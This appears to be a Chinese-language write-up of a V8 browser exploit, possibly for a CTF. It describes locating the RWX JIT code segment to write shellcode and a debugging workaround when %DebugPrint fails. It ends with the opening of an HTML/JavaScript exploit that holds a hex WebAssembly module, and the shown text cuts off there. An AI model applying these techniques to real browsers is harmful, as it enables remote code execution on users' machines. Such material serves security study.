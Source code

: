 ##### 7、获取rwx以及fsfunction的code段

allocation_info的original_top_也就是首地址处存储了rwx的最高地址也可以理解为limit，我们之后获取rwx可以通过limit-size来获取rwx，这里可以通过%DebugPrint（我用不了，理论上的方法）找到jit的code地址，应该和他同处一个rwx段，计算偏移即可得到jit的code段，之后就可以写入shellcode了


### 最后的最后记录一下我在遇到%DebugPrintf无法使用时的解决办法：

最开始我在v8/src/object.cc中的void JSArrayBuffer::Setup函数处打log，查看了一下arraybuffer初始化时的backing_store的偏移，发现在刚初始化是bk是正常的，于是我在bk处下了一个内存断点，发现后面无法使用%DebugPrintf是因为之后会出发垃圾回收（一直没太搞明白为何会触发）。

开始就一直通过JSArrayBuffer::Setup来找bk，但是后来不幸的事件又增加了，jsfunction也无法用%DebugPrintf，而且原因同上，于是我找了一个新办法：

我大致看了眼代码，发现%DebugPrintf是通过下面的函数实现的，也就是我们可以通过在这个函数下断点，之后模拟%DebugPrintf来进行exp的编写：
void JSObject::JSObjectShortPrint(StringStream* accumulator)

这就是解决%DebugPrintf的一个历程，太搞心态了。。。。。


### 演示时间：

![](./img/1.gif)


### exp

```
<html>

<script>

var freelist = null;

var scratch = null;

var scratch_buf = null;

var superpage = null;

var freelist_addr = null;

wasm_module="0061736d01000000010b0260017f017f60027f7f00020b01036d6f6403696d7000000303020001050301000107210308726561645f75333200010977726974655f7533320002066d656d6f727902000a1302070020002802000b0900200020013602000b"



async function debug(){

	for(let j = 0; j < 0x10000; j++){

			var x = 1;

		for(let i = 0; i < 0x10000; i++){

			var x = x + i;

		}

	}



}



```